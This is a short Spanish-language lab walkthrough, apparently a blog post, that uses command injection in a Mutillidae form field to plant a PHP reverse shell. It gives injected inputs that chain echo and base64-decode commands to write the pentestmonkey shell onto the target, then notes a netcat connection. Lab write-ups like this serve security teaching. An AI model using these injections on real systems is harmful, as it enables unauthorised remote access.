 ```yaml
---
typora-copy-images-to: ../../myassets/img/mutillidae/
typora-root-url: ../../
layout: post

---
```


Vamos a realizar un reverse shell mediante inyección de comandos desde un campo de texto de un formulario.



Para ello nos vamos a descargar una plantilla de [esta dirección](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) y la gurardaremos como shell.php

Lo editamos y cambiamos la dirección IP por la que tenemos en el equipo.

![5](/home/ionut/PePs/myassets/img/mutillidae/5.png)



Después vamos a codificarlo en https://www.base64encode.org/

Con este código vamos a crear un fichero  dentro de la máquina a la que vamos a atacar con el contenido con el que hemos codificado.

Para ello utlizaremos la siguiente instrucción:



```bash
127.0.0.1; echo "codigo_que_hemos_codificado" > shell.txt


```

![1](/home/ionut/PePs/myassets/img/mutillidae/1.png)



Una vez creado lo descodificamos y lo guardamos como fichero .php con la siguiente instrucción:

```bash
127.0.0.1; cat shell.txt | base64 -d > shell.php


```

![2](/home/ionut/PePs/myassets/img/mutillidae/2.png)



Realizamos al conexión mediante netcad

![4](/home/ionut/PePs/myassets/img/mutillidae/4.png)






